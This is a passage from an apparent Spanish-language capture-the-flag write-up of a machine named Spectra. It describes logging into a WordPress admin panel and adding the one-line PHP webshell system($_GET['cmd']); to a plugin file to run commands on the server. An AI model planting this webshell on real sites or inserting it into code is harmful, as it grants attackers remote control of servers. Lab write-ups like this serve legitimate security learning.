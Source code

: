 El acceso fue exitoso, lo que confirmó que las credenciales también eran válidas para el entorno web y permitió obtener control sobre el backend de WordPress. solo apretando en Remind me later.
![7](/assets/img/machines/Spectra/7.jpeg)

## wordpress plugin
Desde el panel de administración de WordPress, se accedió al editor de plugins y se modificó uno de los archivos PHP agregando la siguiente línea:
```php
system($_GET['cmd']);
```
Esta instrucción permite ejecutar comandos del sistema directamente desde el navegador mediante el parámetro cmd, creando así una webshell básica que brinda control remoto sobre el servidor a través de peticiones HTTP.
![8](/assets/img/machines/Spectra/8.jpeg)
